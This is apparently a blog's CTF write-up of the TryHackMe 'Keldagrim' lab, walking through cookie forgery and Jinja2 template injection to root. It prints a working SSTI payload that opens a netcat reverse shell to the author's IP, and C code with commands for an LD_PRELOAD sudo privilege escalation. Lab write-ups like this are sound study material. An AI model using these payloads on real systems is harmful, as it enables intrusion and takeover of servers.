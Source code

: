 ```yaml
---
title: "Keldagrim WriteUp"
categories: [ctf]
date: 2022/07/22
description: TryHackMe Biblioteca WriteUp.
---
```

# TryHackMe | Keldagrim

Hello everyone,

I will explain the solution of the medium level machine as clearly as i work.

<p align="center">
  <img src="/img/keldagrim_thm/loky.png">
</p>

Let's first scan for open ports and services with nmap.

```bash
sudo nmap -sSCV 10.10.211.169 -T4 -v
```

<p align="center">
  <img src="/img/keldagrim_thm/0.png">
</p>

The web application is running on port 80 and the ssh service is active. let's switch to web application


<p align="center">
  <img src="/img/keldagrim_thm/1.png">
</p>

here we see a cookie with base64. What happens if we change this?

<p align="center">
  <img src="/img/keldagrim_thm/2.png">
</p>

It looks like there is an admin user and let's try to set our cookie accordingly

```bash
└─$ echo -n Z3Vlc3Q= | base64 -d
guest 

└─$ echo -n admin | base64   
YWRtaW4
```

<p align="center">
  <img src="/img/keldagrim_thm/3.png">
</p>

I've logged into admin. Since I don't understand anything here, I tried to interrupt with the burp suite.

<p align="center">
  <img src="/img/keldagrim_thm/4.png">
</p>

When we decoded the "sales" value, it gave us a result. this is the same result we just saw on the admin page.

```bash
└─$ echo -n JDIsMTY1 | base64 -d
$2,165
```
Two things came to mind here. rce and ssti. I wanted to try the ssti because it made more sense.


<p align="center">
  <img src="/img/keldagrim_thm/5.png">
</p>

I verified it's ssti and created a payload to get the reverse shell.

> {{ namespace.__init__.__globals__.os.popen('rm -f /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.11.77.152 8787 >/tmp/f').read() }}

<p align="center">
  <img src="/img/keldagrim_thm/6.png">
</p>


<p align="center">
  <img src="/img/keldagrim_thm/7.png">
</p>


```bash
Matching Defaults entries for jed on keldagrim:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin,
    env_keep+=LD_PRELOAD

User jed may run the following commands on keldagrim:
    (ALL : ALL) NOPASSWD: /bin/ps
jed@keldagrim:~$
```

I saw that the ps command works with sudo. but also that it belongs to the LD_PRELOAD environment

and I researched for privilege escalation

```bash
#include <stdio.h>
#include <sys/types.h>
#include <stdlib.h>
void _init() {
unsetenv("LD_PRELOAD");
setgid(0);
setuid(0);
system("/bin/sh");
}
```

I saved the c codes in the exploit.c file and ran the following commands in the terminal to switch to root session

```bash
gcc -fPIC -shared -o exploit.so exploit.c -nostartfiles
ls -al exploit.so
sudo LD_PRELOAD=/tmp/exploit.so ps
```

```bash
whomi

cat /root/root.txt && cat /home/jed/user.txt
```

